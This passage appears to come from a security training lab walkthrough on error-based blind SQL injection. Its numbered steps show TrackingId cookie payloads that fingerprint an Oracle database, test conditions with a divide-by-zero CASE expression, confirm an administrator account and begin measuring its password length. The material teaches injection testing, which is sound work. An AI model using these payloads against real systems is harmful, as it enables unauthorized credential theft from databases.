     `TrackingId=xyz'||(SELECT '')||'`
    
    In this case, notice that the query still appears to be invalid. This may be due to the database type - try specifying a predictable table name in the query:
    
    `TrackingId=xyz'||(SELECT '' FROM dual)||'`
    
    As you no longer receive an error, this indicates that the target is probably using an Oracle database, which requires all `SELECT` statements to explicitly specify a table name.
    
5. Now that you've crafted what appears to be a valid query, try submitting an invalid query while still preserving valid SQL syntax. For example, try querying a non-existent table name:
    
    `TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'`
    
    This time, an error is returned. This behavior strongly suggests that your injection is being processed as a SQL query by the back-end.
    
6. As long as you make sure to always inject syntactically valid SQL queries, you can use this error response to infer key information about the database. For example, in order to verify that the `users` table exists, send the following query:
    
    `TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`
    
    As this query does not return an error, you can infer that this table does exist. Note that the `WHERE ROWNUM = 1` condition is important here to prevent the query from returning more than one row, which would break our concatenation.
    
7. You can also exploit this behavior to test conditions. First, submit the following query:
    
    `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`
    
    Verify that an error message is received.
    
8. Now change it to:
    
    `TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`
    
    Verify that the error disappears. This demonstrates that you can trigger an error conditionally on the truth of a specific condition. The `CASE` statement tests a condition and evaluates to one expression if the condition is true, and another expression if the condition is false. The former expression contains a divide-by-zero, which causes an error. In this case, the two payloads test the conditions `1=1` and `1=2`, and an error is received when the condition is `true`.
    
9. You can use this behavior to test whether specific entries exist in a table. For example, use the following query to check whether the username `administrator` exists:
    
    `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
    
    Verify that the condition is true (the error is received), confirming that there is a user called `administrator`.
    
10. The next step is to determine how many characters are in the password of the `administrator` user. To do this, change the value to:
    
    `TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
    
    This condition should be true, confirming that the password is greater than 1 character in length.
    